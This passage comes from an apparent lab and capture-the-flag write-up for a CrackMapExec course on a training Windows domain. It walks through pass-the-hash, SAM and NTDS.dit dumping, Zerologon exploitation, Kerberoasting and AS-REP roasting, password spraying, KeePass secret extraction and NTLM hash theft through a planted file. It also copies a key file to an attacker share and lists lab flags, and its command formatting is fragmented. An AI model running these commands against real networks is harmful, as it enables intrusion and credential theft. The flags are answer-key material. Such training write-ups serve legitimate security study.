'DC01' – lets run the following command to see if 'robert' can execute
commands on 'DC01' via WinRM:
```bash
crackmapexec winrm 172.16.1.10 -u robert -p
```
'Inlanefreight01!' -x whoami


We have an output! We can execute commands via 'WinRM'! lets take the flag:
```bash
crackmapexec winrm 172.16.1.10 -u robert -p
```
'Inlanefreight01!' -x 'type
C:\Users\robert\Desktop\flag.txt'


*_Figure 49.1 — Lab execution and output verification (Page 49)_*


*_Figure 49.2 — Lab execution and output verification (Page 49)_*


*_Figure 49.3 — Lab execution and output verification (Page 49)_*


### directory

> **Lab Question (Page 50)**: Copy the file named julio_keys from the target Administrator's desktop and authenticate using the file with SSH. Submit the flag in Julio's desktop.
>
> **Flag / Answer**: `K3y_F1l3s_EveryWh3r3`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets set-up a SMB share on the pwnbox on our user's home
directory:
```bash
sudo apt-get install samba;
sudo nano /etc/samba/smb.conf;
```
and in it:
[share]
path = /home/<pwnbox-user>
available = yes
valid users = nobody
read only = no
browsable = yes
public = yes
writable = yes
guest ok = yes


We have a smb share called 'share' ready.

Then we restart the service:
```bash
sudo service smbd restart
```


*_Figure 50.1 — Lab execution and output verification (Page 50)_*


### now we can make the download

before we make the file transfer – lets give full permissions of the pwnbox
user's home directory (which is generally not recommended but still..):
```bash
chmod 777 ~
```

now we can make the download:
```bash
crackmapexec smb <target-IP> -u Administrator -p
```
'AnotherC0mpl3xP4$$' --local-auth -x "powershell.exe -c
\"Copy-Item 'C:\Users\Administrator\Desktop\julio_keys' -
Destination '\\\\<attacker-IP>\\share\\julio_keys'\""

and confirm download with
```bash
ls julio_keys
```


Now all we have left is to use the keys to ssh connect to julio user and obtain
the flag:
```bash
crackmapexec ssh <target-IP> -u julio --key-file julio_keys
```
-p "" -x 'type C:\Users\julio\Desktop\flag.txt'


*_Figure 51.1 — Lab execution and output verification (Page 51)_*


*_Figure 51.2 — Lab execution and output verification (Page 51)_*


### Finding Secrets and Using Them

> **Lab Question (Page 52)**: Extract the local database and submit the user's hash with ID 1006 as the answer.
>
> **Flag / Answer**: `6593d8c034bbe9db50e4ce94b1943701`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from the previous section – we use 'robert' user
credentials to extract the sam database from 'MS01':
```bash
crackmapexec smb <target-IP> -u robert -p 'Inlanefreight01!'
```
--sam
*we go for the 'SAM' hashes in and not 'NTDS.dit' because we want the local
database. *

*
*


Question: Which domain account, other than Guest and krbtgt, is disabled?
Answer: harris
Method: now we are seeking domain accounts, so we will extract the NTDS.dit
database in 'DC01':
```bash
crackmapexec smb 172.16.1.10 -u robert -p 'Inlanefreight01!'
```
--ntds


*_Figure 52.1 — Lab execution and output verification (Page 52)_*


*_Figure 52.2 — Lab execution and output verification (Page 52)_*


*_Figure 52.3 — Lab execution and output verification (Page 52)_*


### the command we remove the '-v' flag

> **Lab Question (Page 53)**: What's the hash of the account named soti?
>
> **Flag / Answer**: `1bc3af33d22c1c2baec10a32db22c72d`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

from the file of the extracted hash – lets modify a bit the command:
```bash
cat /home/htb-ac-1099135/.nxc/logs/DC01_172.16.1.10_2024-10-
```
01_032333.ntds | grep -i soti
such that we grep for 'soti' and removed the 'cut' command in order to display
the hashes as well:

*we take the second hash of course. *


*_Figure 53.1 — Lab execution and output verification (Page 53)_*


*_Figure 53.2 — Lab execution and output verification (Page 53)_*


*_Figure 53.3 — Lab execution and output verification (Page 53)_*


### to get only the hash

> **Lab Question (Page 54)**: Use soti's hash to authenticate to 172.16.1.10 and get the flag from soti's desktop.
>
> **Flag / Answer**: `P4%$_tH3_hash_with_S0t1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets use pass the hash with crackmapexec winrm to get the flag:
```bash
crackmapexec winrm 172.16.1.10 -u soti -H
```
'1bc3af33d22c1c2baec10a32db22c72d' -x 'type
C:\Users\soti\Desktop\flag.txt'


```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u '' -p ''
```
--rid-brute | tail -n +4 | awk '{print $6}' | cut -d '\' -f2
> userslist.txt


*_Figure 54.1 — Lab execution and output verification (Page 54)_*


*_Figure 54.2 — Lab execution and output verification (Page 54)_*


### Getting Sessions in a C2 Framework

> **Lab Question (Page 55)**: Repeat the examples in the section, and mark DONE when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

**SKIPPED**

```bash
Bloodhound Integration:
```
Question - Optional: Repeat the examples in the section, and mark DONE
when finished.
Answer: DONE
Method: **SKIPPED**


### Popular Modules

> **Lab Question (Page 56)**: What's the IP of the DNS entry dc02?
>
> **Flag / Answer**: `172.16.1.9`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this section we are provided with the credentials of
'julio:Password1'.

Now, to get the DNS records we will use the command:
```bash
crackmapexec ldap <target-IP> -d dc01.inlanefreight.htb -u
```
julio -p Password1 -M get-network -o ALL=true


There are 4 records saved to 'home/htb-ac-
1099135/.nxc/logs/dc01.inlanefreight.htb_network_2024-10-01_040752.log'

Lets look in there for 'DC02' record:
```bash
cat /home/htb-ac-
```
1099135/.nxc/logs/dc01.inlanefreight.htb_network_2024-10-
01_040752.log | grep dc02


*_Figure 56.1 — Lab execution and output verification (Page 56)_*


*_Figure 56.2 — Lab execution and output verification (Page 56)_*


> **Lab Question (Page 57)**: Use keepass_discover module to identify another configuration file. Submit the path that has "Roaming" as the answer.
>
> **Flag / Answer**: `C:\Users\david\AppData\Roaming\KeePass\KeePass.config.xml`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the module 'keepass_discover' and the command:
```bash
crackmapexec smb <target-IP> -u julio -p Password1 -M
```
keepass_discover


The first path is the path that has 'Roaming' in it.

Question: What's the password you found in the KeePass database file?
Answer: S3creTSuperP@ssword
Method: lets add the path we found to the configuration file:
```bash
crackmapexec smb <target-IP> -u julio -p Password1 -M
```
keepass_trigger -o ACTION=ADD
KEEPASS_CONFIG_PATH=C:/Users/david/AppData/Roaming/KeePass/K
eePass.config.xml
*do make sure to either use forward slash ('/') or double back-slash ('\\') in the
path. *


*_Figure 57.1 — Lab execution and output verification (Page 57)_*


*_Figure 57.2 — Lab execution and output verification (Page 57)_*


### Now we restart the keepass process

Now we restart the keepass process:
```bash
crackmapexec smb <target-IP> -u julio -p Password1 -M
```
keepass_trigger -o ACTION=RESTART


Next, we poll the database to the pwnbox:
```bash
crackmapexec smb <target-IP> -u julio -p Password1 -M
```
keepass_trigger -o ACTION=POLL


The database was loaded to our pwnbox to the file '/tmp/export.xml'.

Lets check it out:
```bash
cat /tmp/export.xml | grep -i password -A 1
```
we will print every line that contains the word 'password' (case- Insensitive),
and the line below it.


*_Figure 58.1 — Lab execution and output verification (Page 58)_*


*_Figure 58.2 — Lab execution and output verification (Page 58)_*


*_Figure 58.3 — Lab execution and output verification (Page 58)_*


### Vulnerability Scan Modules

> **Lab Question (Page 59)**: Connect to the target IP , then get the flag located in the Administrator's desktop.
>
> **Flag / Answer**: `N0w_W3_N33d_Pr0x7Ch41n$`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this section we are provided with the credentials
'Administrator:IpreferanewP@$$'.

Now we will get the flag using command execution – we will use the command:
```bash
crackmapexec smb <target-IP> -u Administrator -p
```
'IpreferanewP@$$' -x 'type
C:\Users\Administrator\Desktop\flag.txt'


*
*


*_Figure 59.1 — Lab execution and output verification (Page 59)_*


*_Figure 59.2 — Lab execution and output verification (Page 59)_*


### We will download the exploit and run it

> **Lab Question (Page 60)**: Attempt to exploit one of the vulnerabilities and get the flag located on the Domain Controller Administrator's desktop.
>
> **Flag / Answer**: `CME_Vuln3rabil1tY_$C4Nn3r`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will set Ligolo to establish pivoting with the Domain Controller –
whose IP is provided for us by the section's guide – 172.16.10.3.
We will establish the pivoting in the same manner we did in 'Proxychains with
CME'.

Once a pivoting is establish – lets try to test the Domain Contoller to some
vulnerabilities and exploit them.

we will use 'zerologon' vulnerability – lets check if the DC is vulnerable to it:
```bash
crackmapexec smb 172.16.10.3 -M zerologon
```


The DC is vulnerable to login, and they even provide us an exploit to proceed
with the attack.

We will download the exploit and run it:
git clone https://github.com/dirkjanm/CVE-2020-1472 -q;
```bash
cd CVE-2020-1472;
python3 cve-2020-1472-exploit.py dc01 172.16.10.3;
```


*_Figure 60.1 — Lab execution and output verification (Page 60)_*


*_Figure 60.2 — Lab execution and output verification (Page 60)_*


### or WinRM pass the hash

```bash
Exploit complete. Now we can extract the NTDS.dit content of DC01:
crackmapexec smb 172.16.10.3 -u 'DC01$' -p '' --ntds
```


We have the Administrator NTLM hash.

Now we can proceed with extracting the flag with either SMB pass the hash:
```bash
crackmapexec smb 172.16.10.3 -u Administrator -H
```
'f36ccfe434490cddc644901973d9a344' -x 'type
C:\Users\Administrator\Desktop\flag.txt'
or WinRM pass the hash:
```bash
crackmapexec winrm 172.16.10.3 -u Administrator -H
```
'f36ccfe434490cddc644901973d9a344' -x 'type
C:\Users\Administrator\Desktop\flag.txt'
in both we use command execution:

*there are possibly more vulnerabilities to try such as 'petitPotam', 'noPAC' and
others. Some of them were already used in prior modules. *


*_Figure 61.1 — Lab execution and output verification (Page 61)_*


*_Figure 61.2 — Lab execution and output verification (Page 61)_*


### Creating Our Own CME Module

> **Lab Question (Page 62)**: Repeat the examples in the section, and mark DONE when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

**SKIPPED**

Question - Optional: Try to create a new module based on this, to create a new
user and add that user to any group. The module should optionally receive the
group name, or by default, it will add the user to the administrator's group.
Mark DONE when finished.
Answer: DONE
Method: **SKIPPED**

Miscellaneous
Additional CME Functionality:
Question - Optional: Repeat the examples in the section, and mark DONE
when finished.
Answer: DONE
Method: **SKIPPED**

Kerberos Authentication:
Question - Optional: Repeat the examples in the section, and mark DONE
when finished.
Answer: DONE
Method: Lets first link the target-IP to the domain on '/etc/hosts':
```bash
sudo nano /etc/hosts
```

and in it


### shares he has access to

<target-IP> dc01.inlanefreight.htb inlanefreight.htb


Once that the IP and domain are linked – lets proceed with the Kerberos
authentication, using Robert credentials (which we used before) to get the
shares he has access to:
```bash
crackmapexec smb <target-IP> -u robert -p Inlanefreight01! -
```
-kerberos --shares


Lets proceed to create and store Robert TGT (ticket granting ticket) to
enviorement variable, and use to it authenticate to various services:
getTGT.py inlanefreight.htb/robert:'Inlanefreight01!' -dc-ip
<target-IP>

```bash
export KRB5CCNAME=$(pwd)/robert.ccache
```


Now lets authenticate to 'ldap', 'mssql' and 'smb' using the cached TGT:


*_Figure 63.1 — Lab execution and output verification (Page 63)_*


*_Figure 63.2 — Lab execution and output verification (Page 63)_*


*_Figure 63.3 — Lab execution and output verification (Page 63)_*


### ldap

ldap:
```bash
crackmapexec ldap <target-IP> --use-kcache
```


Authentication passed

mssql:
```bash
crackmapexec mssql dc01.inlanefreight.htb --use-kcache -q
```
"SELECT name FROM master.dbo.sysdatabases"
we query for dc01 databases, using the TGT:


smb:
```bash
crackmapexec smb <target-IP> --use-kcache --shares
```


*_Figure 64.1 — Lab execution and output verification (Page 64)_*


*_Figure 64.2 — Lab execution and output verification (Page 64)_*


*_Figure 64.3 — Lab execution and output verification (Page 64)_*


### Mastering the CMEDB

> **Lab Question (Page 65)**: Repeat the examples in the section, and mark DONE when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

**SKIPPED**


### Capstone: Skills Assessment

> **Lab Question (Page 66)**: What's the password of the account you found?
>
> **Flag / Answer**: `Password1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this section's there is already chisel server up and running on the
target machine, provided for us by the section. So we will have to use
chisel+proxychains (NOT 'Ligolo') to establish a connection to the internal
network - 172.16.15.0/24 (address provided by the section's guide). (personally
I prefer to work with 'Ligolo' but whatever..)

So lets set the chisel and proxychains on our own end – the pwnbox.

Lets start with the proxychains.conf file:
```bash
sudo nano /etc/proxychains.conf
```
just as with 'Proxychains with CME' – we add in the file the proxy 'socks 5
127.0.0.1 1080'


Now to the chisel – now we need the chisel client only. We will download chisel
client for Linux (and64)
wget
https://github.com/jpillora/chisel/releases/download/v1.7.7/
chisel_1.7.7_linux_amd64.gz -O chisel.gz -q;

gunzip -d chisel.gz;

```bash
chmod +x chisel;
```

./chisel client <target-IP>:1080 socks;


*_Figure 66.1 — Lab execution and output verification (Page 66)_*


### machine


*_Figure 67.1 — Lab execution and output verification (Page 67)_*


*_Figure 67.2 — Lab execution and output verification (Page 67)_*


### didn't made exact count). Lets keep those users in a file

#### Technical Methodology & Exploit Execution:

```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u '' -p ''
```
--rid-brute 10000
*we make sure to set the –rid-brute to brute force NOT the default first 4000
options, but to a value large enough to cover all the options. 10000 should
suffice. *

*
*

We can observe that there are roughly 5603 users  (according to highest ID, I
didn't made exact count). Lets keep those users in a file:


*_Figure 68.1 — Lab execution and output verification (Page 68)_*


*_Figure 68.2 — Lab execution and output verification (Page 68)_*


*_Figure 68.3 — Lab execution and output verification (Page 68)_*


### the hashed using the command

#### Technical Methodology & Exploit Execution:

```bash
sudo proxychains -q crackmapexec ldap 172.16.15.3 -u
```
userslist.txt -p '' -d dc01.inlanefreight.local --asreproast
asreproast.out | grep '\$'


We have a hash, it belongs to 'Juliette'! Lets crack it just as we did in 'Finding
ASREPRoastable Accounts' section.
We use the password list 'rockyou.txt'.
And We will use the hashcat -m value of 18200 for 'as-rep' hash, we will crack
the hashed using the command:
```bash
hashcat -m 18200 asreproast.out rockyou.txt
```


*_Figure 69.1 — Lab execution and output verification (Page 69)_*


*_Figure 69.2 — Lab execution and output verification (Page 69)_*


### 172.16.15.3

> **Lab Question (Page 70)**: Gain access to the SQL01 and submit the contents of the flag located in C:\Users\Public\flag.txt.
>
> **Flag / Answer**: `R3Us3_D4t@_Fr0m_DB`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets start with initiating a kerberoastable accounts search as we did in
'Finding Kerberoastable Accounts' section, using Juliette user.
*note – the process about to be shown will not work without the credentials,
so it would not had work in the first question. *

As we did in 'Finding Kerberoastable Accounts' section – we will first set the
'/etc/hosts' link between the dc01.inlanefreight.local domain and the dc01 IP
172.16.15.3:
```bash
sudo nano /etc/hosts
```
and in it:


*_Figure 70.1 — Lab execution and output verification (Page 70)_*


*_Figure 70.2 — Lab execution and output verification (Page 70)_*


### Now lets proceed with the kerberoatable accounts discovery

172.16.15.3 dc01.inlanefreight.local inlanefreight.local


Now the host and IP are linked.

Now lets proceed with the kerberoatable accounts discovery:
```bash
sudo proxychains -q crackmapexec ldap
```
dc01.inlanefreight.local -u Juliette -p Password1 --
kerberoasting kerberoasting.out


We found a krbtgs hash of 'Atul' - It was outputted to 'kerberoasting.out'. Lets
crack it (with rockyou):
```bash
hashcat -m 13100 kerberoasting.out rockyou.txt
```


*
*


*_Figure 71.1 — Lab execution and output verification (Page 71)_*


*_Figure 71.2 — Lab execution and output verification (Page 71)_*


*_Figure 71.3 — Lab execution and output verification (Page 71)_*


### Lets proceed in doing a share listing with 'Atul'

The password is 'hooters1' – meaning the credentials are 'Atul:hooters1'.

Lets proceed in doing a share listing with 'Atul':
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u Atul -p
```
hooters1 --shares


'Atul' has read permissions to the share 'DEV' (which 'Juliette' doesn't).

Lets take a look in it – searching for txt files:
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u Atul -p
```
hooters1 --spider DEV --pattern txt


We take immediate notice in 'sql_dev_creds.txt' – lets download the file to our
pwnbox, and read it:


*_Figure 72.1 — Lab execution and output verification (Page 72)_*


*_Figure 72.2 — Lab execution and output verification (Page 72)_*


*_Figure 72.3 — Lab execution and output verification (Page 72)_*


```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u Atul -p
```
hooters1 --share DEV --get-file sql_dev_creds.txt
sql_dev_creds.txt;

```bash
cat sql_dev_creds.txt;
```


We get the credentials 'sqldev:Sq!D3vUs3R' (ignore those '??' characters-
things).

Lets use the credentials on 'SQL01' (172.16.15.15) to mssql escalate our
privileges, as we did in 'MSSQL Enumeration and Attacks', and then get the flag.
We will use the local-auth authentication as the credentials are not domain-
based.
*note – the following mssql privilege escalation will not work for either
'Juliette' or 'Atul'. *
```bash
sudo proxychains -q crackmapexec mssql 172.16.15.15 -u
```
'sqldev' -p 'Sq!D3vUs3R' -M mssql_priv -o ACTION=privesc --
local-auth


'sqldev' can impersonate 'netdb'.

Now we can run commands on the 'SQL01' host. Lets take the flag:
```bash
sudo proxychains -q crackmapexec mssql 172.16.15.15 -u
```
'sqldev' -p 'Sq!D3vUs3R' -x 'type C:\Users\Public\flag.txt'
--local-auth


*_Figure 73.1 — Lab execution and output verification (Page 73)_*


*_Figure 73.2 — Lab execution and output verification (Page 73)_*


### enumerating the databases in that host

> **Lab Question (Page 74)**: Gain access to the DEV01 and submit the contents of the flag located in C:\Users\Administrator\Desktop\flag.txt.
>
> **Flag / Answer**: `W3_F1nD_Cr3d$_EverY_Wh3re`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets use 'sqldev' to take a look at 'SQL01' database, we will begin with
enumerating the databases in that host:
```bash
sudo proxychains -q crackmapexec mssql 172.16.15.15 -u
```
'sqldev' -p 'Sq!D3vUs3R' -q "SELECT name FROM
master.dbo.sysdatabases" --local-auth


We have this 'interns' database. Lets see what tables are in it:
```bash
sudo proxychains -q crackmapexec mssql 172.16.15.15 -u
```
'sqldev' -p 'Sq!D3vUs3R' -q "SELECT table_name from
interns.INFORMATION_SCHEMA.TABLES" --local-auth


'interns' database has a table 'details'. Lets read everything in this table:
```bash
sudo proxychains -q crackmapexec mssql 172.16.15.15 -u
```
'sqldev' -p 'Sq!D3vUs3R' -q "SELECT * from
[interns].[dbo].details" --local-auth


*_Figure 74.1 — Lab execution and output verification (Page 74)_*


*_Figure 74.2 — Lab execution and output verification (Page 74)_*


*_Figure 74.3 — Lab execution and output verification (Page 74)_*


### contains all of those interns

*
*

The table contains credentials of the users 'intern1' to 'intern33', and the
password to them all is 'Welcome1'.

Lets use the following bash script to create a txt file called 'interns.txt' that
contains all of those interns:
#!/bin/bash

output_file="interns.txt"

for i in {1..33}; do
```bash
echo "intern${i}" >> $output_file
```
done

# Confirm the file has been created
```bash
echo "interns written to $output_file"
```

we call it 'interns.sh':


*_Figure 75.1 — Lab execution and output verification (Page 75)_*


*_Figure 75.2 — Lab execution and output verification (Page 75)_*


*_Figure 75.3 — Lab execution and output verification (Page 75)_*


### Lets give it execution permissions, and run it

Lets give it execution permissions, and run it:
```bash
chmod u+x interns.sh;
```
./interns.sh;


Lets check the output file 'interns.txt':

*
*


Great we have the interns file ready, now lets bruteforce 'DC01' to see what
intern is a valid user in this host, using 'password spray' technique with the
password 'Welcome1':
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u
```
interns.txt -p Welcome1 | grep '[+]'


'intern30' is a valid user of 'DC01'.

Lets see what shares 'intern30' can access in 'DC01':
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u intern30
```
-p Welcome1 --shares


*_Figure 76.1 — Lab execution and output verification (Page 76)_*


*_Figure 76.2 — Lab execution and output verification (Page 76)_*


*_Figure 76.3 — Lab execution and output verification (Page 76)_*


*_Figure 76.4 — Lab execution and output verification (Page 76)_*


### also have 'note.txt'

'intern30' as writing access to 'DEV_INTERN'.
We can use the hash stealing technique we used in 'Stealing Hashes' section -
meaning to plant an 'agent', a special file that upon trigger by a user, it sends
NTLM that can be intercepted.

Now, we would want to use the 'LNK' method we did in 'Stealing Hashes',
however going back to the content intercepted in 'DEV' share by 'Atul' – we
also have 'note.txt':

Upon download and read the note:

'LNK' option is blocked, we have to use another method.

For that we will use the 'drop-sc Module' technique, also covered in 'Stealing
Hashes' section. We will state initiating a responder listener:
```bash
sudo responder -I tun0
```


*_Figure 77.1 — Lab execution and output verification (Page 77)_*


*_Figure 77.2 — Lab execution and output verification (Page 77)_*


*_Figure 77.3 — Lab execution and output verification (Page 77)_*


### file

*
*


Now as the responder is listening, lets drop the 'agent' – 'searchConnector-ms'
file:
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u intern30
```
-p Welcome1 -M drop-sc -o URL=\\\\<attacker-IP>\\secret
SHARE=DEV_INTERN FILENAME=secret


*_Figure 78.1 — Lab execution and output verification (Page 78)_*


*_Figure 78.2 — Lab execution and output verification (Page 78)_*


*_Figure 78.3 — Lab execution and output verification (Page 78)_*


*_Figure 78.4 — Lab execution and output verification (Page 78)_*


### responder

It says a 'searchConnector-ms' file 'secret' was created. Lets check the
responder:

We've got a hash! Which belongs to 'james'. The hash is NTLMv2 hash, so we
will intercept it with hashcat -m 5600, and 'rockyou.txt' wordlist:
```bash
hashcat -m 5600 hash.txt rockyou.txt
```


*
*

The password is '04apple'.

We've obtained new credentials: 'james:04apple'.
With james's credentials – we can check for GMSA – 'Group Managed Service
Account'. Lets check for those in 'DC01':
```bash
sudo proxychains -q crackmapexec ldap 172.16.15.3 -u james -
```
p 04apple --gmsa


*_Figure 79.1 — Lab execution and output verification (Page 79)_*


*_Figure 79.2 — Lab execution and output verification (Page 79)_*


*_Figure 79.3 — Lab execution and output verification (Page 79)_*


*_Figure 79.4 — Lab execution and output verification (Page 79)_*


### see to what shares the user has access to

> **Lab Question (Page 80)**: Read the flag from the shared folder Ccache.
>
> **Flag / Answer**: `Non_D0m41n_@dM1ns_H@s_Privs`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

using 'svc_devadm$' user – lets run shares enumeration to 'DEV01' to
see to what shares the user has access to:
```bash
sudo proxychains -q crackmapexec smb 172.16.15.20 -u
```
svc_devadm$ -H 02f9f62c9512a096d9d0873a203fa0a4 --shares


'svc_devadm$' has READ and WRITE access to both 'C$' and 'Admin$' shares.

Lets use the 'spidering' technique to look into the 'C$' share for some txt files,
see what we can find:


*_Figure 80.1 — Lab execution and output verification (Page 80)_*


*_Figure 80.2 — Lab execution and output verification (Page 80)_*


### Lets extract whatever data we can from it

```bash
sudo proxychains -q crackmapexec smb 172.16.15.20 -u
```
svc_devadm$ -H '02f9f62c9512a096d9d0873a203fa0a4' --spider
C$ --pattern txt


There seems to be the presence of 'KeePass' in the host.

Lets see what we can find in there using the 'keepass_discover' module:
```bash
sudo proxychains -q crackmapexec smb 172.16.15.20 -u
```
svc_devadm$ -H '02f9f62c9512a096d9d0873a203fa0a4' -M
keepass_discover


We've found 'Roaming\KeePass\KeePass.config.xml' file

Lets extract whatever data we can from it:
```bash
sudo proxychains -q crackmapexec smb 172.16.15.20 -u
```
svc_devadm$ -H '02f9f62c9512a096d9d0873a203fa0a4' -M
keepass_trigger -o ACTION=ADD
KEEPASS_CONFIG_PATH=C:/Users/Administrator/AppData/Roaming/K
eePass/KeePass.config.xml
*remember – the path is with forward slash ('/'). *


*_Figure 81.1 — Lab execution and output verification (Page 81)_*


*_Figure 81.2 — Lab execution and output verification (Page 81)_*


### 'password'

→
```bash
sudo proxychains -q crackmapexec smb 172.16.15.20 -u
```
svc_devadm$ -H '02f9f62c9512a096d9d0873a203fa0a4' -M
keepass_trigger -o ACTION=POLL


The extracted data was downloaded to our attacking pwnbox in
'/tmp/export.xml'.

Lets open the downloaded '/tmp/export.xml' file, filtering for the key-word
'password':
```bash
cat /tmp/export.xml | grep Password -B 1 -A 1 -i
```
*for every occurrence of the key-word 'Password' – we print the line itself, the
line below it and the line above it. *

There is a password 'ASU934as0-dm23asd!', but to whom it belongs?


*_Figure 82.1 — Lab execution and output verification (Page 82)_*


*_Figure 82.2 — Lab execution and output verification (Page 82)_*


*_Figure 82.3 — Lab execution and output verification (Page 82)_*


### Lets spray

We will have to find the user to whom the password belongs with password
spraying. We will be using the 'userslist.txt' created back in the first question.

*if needed, in addition to the original method, the wordlist can also be
generated with the command
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u james -p
```
04apple --users | tail -n +5 | awk '{print $5}' >
userslist.txt
using the fact 'james' has access to the '--users' list in 'DC01'.
It is actually more recommended as it produces far less usernames than the '--
rid-brute'. However, both methods will work*

Lets spray:
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u
```
userslist.txt -p 'ASU934as0-dm23asd!' | grep '[+]'


We've found a user – 'nick'.
We have now the credentials 'nick:ASU934as0-dm23asd!'. Lets see to what
shares he can access in 'DC01':
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u nick -p
```
'ASU934as0-dm23asd!' --shares


*_Figure 83.1 — Lab execution and output verification (Page 83)_*


*_Figure 83.2 — Lab execution and output verification (Page 83)_*


### there

'nick' has READ and WRITE permissions to 'Ccashe' share. Lets look for a flag in
there:
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u nick -p
```
'ASU934as0-dm23asd!' --spider Ccache --pattern flag


Here is the flag, right in the share. Lets download it:
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u nick -p
```
'ASU934as0-dm23asd!' --share Ccache --get-file flag.txt
flag.txt


And read it:


*_Figure 84.1 — Lab execution and output verification (Page 84)_*


*_Figure 84.2 — Lab execution and output verification (Page 84)_*


*_Figure 84.3 — Lab execution and output verification (Page 84)_*


### user. maybe there is some Kerberos ticket lying in there

> **Lab Question (Page 85)**: Gain access to the DC01 and submit the contents of the flag located in C:\Users\Administrator\Desktop\flag.txt.
>
> **Flag / Answer**: `CME_R00cK$`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets begin by take a look once again to the 'Cache' share using 'nick'
user. maybe there is some Kerberos ticket lying in there:
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u nick -p
```
'ASU934as0-dm23asd!' --spider Ccache --pattern ccache


There is a ticket, belonging to the service user 'svc_inlaneadm'.
Lets download it, and load it to our environment variable 'KRB5CCNAME' so we
can use 'svc_inlaneadm' account:
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u nick -p
```
'ASU934as0-dm23asd!' --share Ccache --get-file
svc_inlaneadm@INLANEFREIGHT.LOCAL_krbtgt~INLANEFREIGHT.LOCAL
@INLANEFREIGHT.LOCAL.ccaches
svc_inlaneadm@INLANEFREIGHT.LOCAL_krbtgt~INLANEFREIGHT.LOCAL
@INLANEFREIGHT.LOCAL.ccaches


File downloaded to our attacking pwnbox. Lets put it in our environment
variable 'KRB5CCNAME':
export
KRB5CCNAME=svc_inlaneadm@INLANEFREIGHT.LOCAL_krbtgt~INLANEFR
EIGHT.LOCAL@INLANEFREIGHT.LOCAL.ccaches


*_Figure 85.1 — Lab execution and output verification (Page 85)_*


*_Figure 85.2 — Lab execution and output verification (Page 85)_*


### *we can also dump a specific for 'Administrator'

Now we should be able to run operating using 'svc_inlaneadm' with Kerberos
authentication.

We can use 'svc_inlaneadm' to dump the ntds content, and get the NTLM
hashes of the various users of the domain, including the Administrator:
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 --use-
```
kcache --ntds


The marked part is the NTLM hash of the administrator –
'935f8a2f4fc9ec7b45c54a1044c74c08'.

*we can also dump a specific for 'Administrator':
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 --use-
```
kcache --ntds --user 'Administrator'


*


*_Figure 86.1 — Lab execution and output verification (Page 86)_*


*_Figure 86.2 — Lab execution and output verification (Page 86)_*


*_Figure 86.3 — Lab execution and output verification (Page 86)_*


Lets use pass the hash on the Administrator user to obtain the flag, using smb
command execution:
```bash
sudo proxychains -q crackmapexec smb 172.16.15.3 -u
```
Administrator -H '935f8a2f4fc9ec7b45c54a1044c74c08' -x 'type
C:\Users\Administrator\Desktop\flag.txt'


*we can also use '-X' to execute powershell commands as well. Which can also
be used to obtain the flag *


*_Figure 87.1 — Lab execution and output verification (Page 87)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1021.002, T1078, T1003` |
| **Common Weakness Enumerations** | `CWE-287, CWE-269` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1021.002`](https://attack.mitre.org/techniques/T1021/) | **Remote Services: SMB/Windows Admin Shares** | `Lateral Movement` | Executing commands across hosts via SMB |
| [`T1078`](https://attack.mitre.org/techniques/T1078/) | **Valid Accounts** | `Initial Access / Persistence` | Testing credentials across broad network ranges (Password Spraying) |
| [`T1003`](https://attack.mitre.org/techniques/T1003/) | **OS Credential Dumping** | `Credential Access` | Dumping LSA secrets, SAM, and NTDS.dit hashes via CME |


### Identified Common Weakness Enumerations (CWE)

